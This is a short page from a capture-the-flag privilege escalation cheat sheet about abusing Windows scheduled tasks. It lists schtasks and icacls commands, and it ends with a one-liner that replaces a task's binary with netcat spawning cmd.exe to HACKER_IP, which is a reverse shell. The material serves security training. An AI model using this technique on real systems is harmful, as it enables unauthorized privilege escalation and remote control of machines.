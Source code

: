 # Scheduled tasks

[Go back](../index.md#windows-privilege-escalation-)

[![windowsprivesc20](../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

List scheduled tasks

```shell!
PS> schtasks
```

Query more info on a task <small>(ex: `example_task`)</small> with:

```shell!
PS> schtasks /query /tn example_task /fo list /v
```

When inspecting tasks, look for the binary in **Task To Run**. You may be able to **replace**, **edit** or **inject** some code in the binary.

* Check your [permissions](/operating-systems/windows/_knowledge/index.md#permissions-and-users)

```shell!
PS> icacls task_to_run
```
</div><div>

➡️ During CTFs, you may be given the permissions to restart the task, otherwise you will have to wait.

```shell!
PS> schtasks /run /tn taskname
```

<br>

#### Replace a task

Replace a binary executed by a task with `netcat`:

```shell!
CMD> echo %temp%\nc64.exe -e cmd.exe HACKER_IP PORT > task_to_run
```
</div></div>